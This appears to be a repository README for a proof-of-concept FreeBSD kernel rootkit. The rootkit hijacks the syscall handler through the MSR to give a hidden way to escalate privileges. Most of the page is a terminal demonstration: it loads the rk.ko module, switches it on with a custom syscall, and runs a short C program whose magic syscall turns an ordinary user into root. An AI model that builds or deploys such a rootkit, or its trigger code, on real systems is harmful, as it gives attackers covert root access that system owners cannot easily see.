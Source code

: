 This is a POC for a *rootkit* that I wrote a long time ago that overwrites the MSR and hijack the original syscall handler in order to provide a 'hidden' way to escalate the privileges. Additionally, the rootkit adds a new syscall that was created to handle the rootkit. This new syscall receives one argument, 1 or 0, enabling or disabling the rootkit.

Demonstration:
```
$ uname -a
FreeBSD rootkit 10.0-RELEASE FreeBSD 10.0-RELEASE #5: Wed Nov 26 17:05:04 BRT 2014     andersonc0d3@rootkit:/usr/obj/usr/src/sys/DEBUG  amd64
$ cat /etc/master.passwd
cat: /etc/master.passwd: Permission denied
$ id
uid=1001(andersonc0d3) gid=1001(andersonc0d3) groups=1001(andersonc0d3),0(wheel)
$ kldstat -v|grep rk.ko
 7    1 0xffffffff81a63000 2a0      rk.ko (./rk.ko)
$ perl -e 'syscall(210,1)'
$ cd rootkit_amd64
$ cat getroot.c
#include <stdio.h>
#include <stdlib.h>

int main(void){
	
	printf("uid: %d\n",getuid());

	asm("mov $0x31337,%rax");
	asm("syscall");

	return 0;
}
$ ./getroot
uid: 1001
$ id
uid=0(root) gid=0(wheel) groups=0(wheel)
$
```

